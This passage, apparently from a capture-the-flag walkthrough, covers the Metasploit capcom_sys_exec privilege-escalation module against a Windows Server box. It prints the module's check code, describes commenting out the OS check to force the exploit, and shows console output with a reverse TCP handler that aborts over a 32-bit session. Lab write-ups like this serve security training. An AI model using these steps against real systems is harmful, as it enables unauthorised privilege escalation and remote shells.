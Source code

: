 `check` is defined above in the same file:

```

  def check
    if sysinfo['OS'] !~ /windows (7|8|10)/i
      return Exploit::CheckCode::Unknown
    end

    if sysinfo['Architecture'] != ARCH_X64
      return Exploit::CheckCode::Safe
    end

    # Validate that the driver has been loaded and that
    # the version is the same as the one expected
    client.sys.config.getdrivers.each do |d|
      if d[:basename].downcase == 'capcom.sys'
        expected_checksum = '73c98438ac64a68e88b7b0afd11ba140'
        target_checksum = client.fs.file.md5(d[:filename])

        if expected_checksum == Rex::Text.to_hex(target_checksum, '')
          return Exploit::CheckCode::Appears
        end
      end
    end

    return Exploit::CheckCode::Safe
  end

```

It’s checking that the OS is 7, 8, or 10, and that the architecture is x64. It’s failing because this is a Windows Server OS. It also checks for the vulnerable version of the driver (which I’ve already shown is there).

I’ll comment out the check for the OS version, exit Metasploit, and start it again to reload the new version.

#### Architecture

This time, it’s a different error:

```

msf6 exploit(windows/local/capcom_sys_exec) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: x86
[*] Started reverse TCP handler on 10.10.14.6:443 
[-] Exploit aborted due to failure: no-target: Running against WOW64 is not supported, please get an x64 session
[*] Exploit completed, but no session was created.

```
